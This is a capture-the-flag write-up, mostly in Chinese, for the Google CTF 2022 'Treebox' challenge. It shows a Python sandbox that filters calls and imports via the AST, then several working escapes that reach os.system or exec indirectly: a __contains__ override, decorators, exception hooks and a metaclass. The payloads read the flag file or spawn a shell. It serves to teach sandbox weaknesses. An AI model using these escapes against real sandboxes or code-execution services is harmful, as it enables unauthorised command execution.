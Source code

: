# TREEBOX

*I think I finally got Python sandboxing right.*

*[Attachment](https://storage.googleapis.com/gctf-2022-attachments-project/17f98f8c9c9f8089ab3a35e94de752582253c3784637fe6ef6a561c12b817fcd7acf05a4573bff2cd43247f8e5263200aa29745605ae2719de774160bb21e301) `treebox.2022.ctfcompetition.com 1337`*

---

<details>
<summary>treebox.py</summary>

```python
#!/usr/bin/python3 -u
#
# Flag is in a file called "flag" in cwd.
#
# Quote from Dockerfile:
#   FROM ubuntu:22.04
#   RUN apt-get update && apt-get install -y python3
#
import ast
import sys
import os

def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True

abspath = os.path.abspath(__file__)
dname = os.path.dirname(abspath)
os.chdir(dname)

print("-- Please enter code (last line must contain only --END)")
source_code = ""
while True:
  line = sys.stdin.readline()
  if line.startswith("--END"):
    break
  source_code += line

tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
if verify_secure(tree):  # Safe to execute!
  print("-- Executing safe code:")
  compiled = compile(source_code, "input.py", 'exec')
  exec(compiled)
```
</details>

阅读源码,可以发现:

* `flag`在当前工作目录下一个名为`flag`的文件
* 我们可以通过`exec`执行任意代码,但必须通过`verify_secure`函数的检查
* `verify_secure`使用`ast`模块进行分析,不能有显式的函数调用和导入语句
* `os`和`sys`模块可用

思路:

* `os`模块已经导入,我们可以通过`os.system()`方法来执行系统命令
* 借助于Python机制,通过非显式的方式地来调用函数,如内置函数、重载运算符、解释器Hook

我的解法:

在python中使用`in`运算符时,默认会调用`__contains__`方法,并且会将需要判断的对象作为形参传入;

所以我们可以用`os.system`覆盖现有的python对象/类上的`__contains__`方法,然后通过运算符来调用`system`函数.

```python
os.environ.__class__.__contains__ = os.system
'cat flag' in os.environ
```

其他解法:

1. 装饰器

   ```python
   @exec
   @input
   class X:
     pass
   ```

2. 异常

   ```python
   class MyException(Exception):
     def __str__(self):
       return 'cat flag'
   
   sys.stdout.write=os.system
   sys.stderr.write=os.system
   
   raise MyException   
   ```

   ```python
   class X:
       def __init__(self, a, b, c):
           self += "os.system('sh')"
       __iadd__ = exec
   sys.excepthook = X
   1/0
   ```

3. 元类

   ```python
   # This will define the members on the "sub"class
   class Metaclass:
       __getitem__ = exec # So Sub[string] will execute exec(string)
   # Note: Metaclass.__class__ == type
       
   class Sub(metaclass=Metaclass): # That's how we make Sub.__class__ == Metaclass
       pass # Nothing special to do
   
   assert isinstance(Sub, Metaclass)
   sub['import os; os.system("sh")']
   ```



其他Writeup

* [GCTF 2022 Treebox](https://ur4ndom.dev/posts/2022-07-04-gctf-treebox/)

**flag:**`CTF{CzeresniaTopolaForsycja}`